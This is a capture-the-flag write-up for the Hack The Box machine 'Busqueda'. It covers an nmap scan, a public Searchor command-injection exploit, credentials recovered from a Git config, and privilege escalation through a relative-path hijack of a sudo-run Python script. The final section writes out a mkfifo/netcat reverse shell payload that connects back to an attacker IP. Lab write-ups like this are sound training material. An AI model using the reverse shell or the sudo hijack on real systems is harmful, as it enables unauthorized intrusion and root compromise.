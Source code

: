 ```yaml
---
title: "Busqueda"
date: 2024-04-17
categories: HTB
tags: ["ctf", "penetration testing", "htb", "cybersecurity", "htb writeup", "busqueda", "htb walkthrough", "hackthebox", "writeup"]
---
```


## Credentials

| Username      | Password            | Hash | Source |
| ------------- | ------------------- | ---- | ------ |
| svc           | jh1usoih2bkjaspwe92 |      |        |
| gitea         | jI86kGUuj87guWr3RyF |      |        |
| administrator | yuiu1hoiu4i5ho1uh   |      |        |

## Enumeration

>- Footer contains service version number.

### Nmap

```sh
└─$ nmap -sC -sV 10.10.11.208 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-05 10:31 AEST
Stats: 0:00:05 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 42.98% done; ETC: 10:31 (0:00:08 remaining)
Nmap scan report for 10.10.11.208
Host is up (0.019s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 4f:e3:a6:67:a2:27:f9:11:8d:c3:0e:d7:73:a0:2c:28 (ECDSA)
|_  256 81:6e:78:76:6b:8a:ea:7d:1b:ab:d4:36:b7:f8:ec:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://searcher.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: Host: searcher.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### 80-HTTP

![screenshot](/assets/images/busqueda1.png)

![screenshot](/assets/images/busqueda2.png)

![screenshot](/assets/images/busqueda3.png)

## Initial Access

>- Gain shell as `svc` user by using a public exploit.

https://github.com/nikn0laty/Exploit-for-Searchor-2.4.0-Arbitrary-CMD-Injection

#### Shell as svc

![screenshot](/assets/images/busqueda4.png)

![screenshot](/assets/images/busqueda5.png)

```text
http://cody:jh1usoih2bkjaspwe92@gitea.searcher.htb/cody/Searcher_site.git
```

![screenshot](/assets/images/busqueda6.png)

```text
0000000000000000000000000000000000000000 5ede9ed9f2ee636b5eb559fdedfd006d2eae86f4 administrator@gitea.searcher.htb
```

add gitea.searcher.htb to `/etc/hosts`

![screenshot](/assets/images/busqueda7.png)

sign in as `cody : jh1usoih2bkjaspwe92`

![screenshot](/assets/images/busqueda8.png)

ssh as `svc :jh1usoih2bkjaspwe92 `

## Privilege Escalation

>- `/var/www` contains `.git`
	- `config` file contains cody user credentials for `gitea.searcher.htb`
		- add the new domain to `/etc/hosts`
		- sign in with the obtained credentials 
- SSH as `svc` user with cody user's passsword.
	- `sudo -l` svc user has sudo privileges to run some python scripts
	- Following the official documentation for command formats, I was able to obtain more credentials.
	- Path abuse one of the python scripts. 
		- create a new file with reverse shell payload in another directory `/tmp`.
		- name it the same 
		- execute the file in the `tmp` using `sudo`.

![screenshot](/assets/images/busqueda10.png)

![screenshot](/assets/images/busqueda11.png)

![screenshot](/assets/images/busqueda12.png)

https://docs.docker.com/reference/cli/docker/inspect/

![screenshot](/assets/images/busqueda13.png)

```sh
sudo /usr/bin/python3 /opt/scripts/system-checkup.py docker-inspect --format='{{json .Config}}' mysql_db
```

![screenshot](/assets/images/busqueda14.png)

![screenshot](/assets/images/busqueda15.png)

We now attempt to leverage the relative reference to `full-checkup.sh` by executing the `system-checkup` script from another directory that will contain our own malicious `full-checkup.sh` script.

```sh
# create a shell file and insert a reverse shell payload into it
echo -en "#! /bin/bash\nrm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.16 9001 >/tmp/f" > /tmp/full-checkup.sh
# make it executable
chmod +x /tmp/full-checkup.sh
# execute the shell
cd /tmp
sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
```

![screenshot](/assets/images/busqueda16.png)
